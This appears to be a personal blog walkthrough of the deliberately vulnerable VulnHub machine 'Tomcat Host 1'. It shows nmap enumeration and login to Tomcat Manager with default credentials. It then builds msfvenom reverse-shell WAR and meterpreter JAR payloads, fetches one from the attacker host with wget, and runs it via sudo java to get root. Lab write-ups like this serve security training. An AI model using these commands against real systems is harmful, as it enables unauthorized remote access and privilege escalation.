 ```yaml
---
published: true
layout: post
title: Tomcat Host
category: Vulnhub
---
```

**Url**: [Tomcat Host 1 VulnHub](https://www.vulnhub.com/entry/my-tomcat-host-1,457/) 

**Difficulty**: Easy/Beginner Level 

**Author**: Akanksha Sachin Verma 

### Enumeration

Firstly, a netdiscover scan will reveal how the machine can be identified on the network:

<pre>netdiscover -i eth1
some more code for example</pre>
    
![netdiscover](https://i.imgur.com/IhhB5af.png)

Then an nmap scan:

<pre>nmap -p- -A 192.168.56.110</pre>

![nmap](https://imgur.com/fqEpNx9.png)

A closer look at port 8080 on my broswer reveals a Apache Tomcat/9.0.31 

![tomcat](https://imgur.com/e78J3dy.png)

Apache Tomcat is an application server designed to execute Java servlets and render web pages that use Java Server page coding.

The "Manager App" section requires a username and password. The default credentials for Tomcat work (tomcat:tomcat).

<pre>192.168.56.110:8080/manager/html</pre>

The Web Application Manager is an opportunity to upload a reverse shell. I'll be using msfvenom to create a reverse shell. This is a good website on how to use msfvenom for reference:

[Offensive Security](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

The payload must be a war file, listening on port 4444 with my local adddress.

<pre>msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.56.101 lport=4444 -f war > fedai.war</pre>

This will be uploaded here:

![upload](https://imgur.com/N4Ns2uf.png)

Before executing the payload, listen on port 4444 with netcat:

<pre>nc -nvlp 4444</pre>

Now it must be executed, so we visit the path where it is kept, in my case /fedai. We now have a reverse shell. Uid is 'tomcat'.

<pre>id
python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![deployed](https://imgur.com/2hdSVjH.png)


### User

Always check sudo priviliges to see how we can start escelating priviliges:

<pre>sudo -l</pre>
   
![sudo l](https://imgur.com/50SztJT.png)

As demonstrated, the user tomcat can run commands here:	/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.242.b08-0.el7_7.x86_64/jre/bin/java. This is an openjdk java binary file which we can use to exploit priviliges.

We'll be creating another reverse shell payload on meterpreter in a java file format. Listening port will be 5555 with my local IP address again. The file will be downloaded on the victims pc so this file will be created under the apache web directory on my machine.

<pre>msfvenom --platform java -f jar -p java/meterpreter/reverse_tcp lhost=192.168.56.101 lport=5555 > fedai.jar</pre>

![www](https://imgur.com/0IDSyUh.png)

Start the apache2 service:

<pre>service apache2 start</pre>

Go to the temp directory on the victims machine and transfer the payload over.

<pre>cd /tmp
wget http://192.168.56.101/fedai.jar</pre>

![wget](https://imgur.com/PmLq6W1.png)

### Root

Before executing, we need to set up the meterpreter payload listener on metasploit:

<pre>msfconsole
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lport 5555
run</pre>

![meterpreter](https://imgur.com/UWIDebS.png)

Let's execute this payload with the following command:

<pre>sudo java -jar fedai.jar</pre>

![exe](https://imgur.com/6tya58T.png)

We get a successful connection from the tomcat machine as seen on meterpreter, the current user has been identified as root!

![connection](https://imgur.com/4NfW5Ls.png)
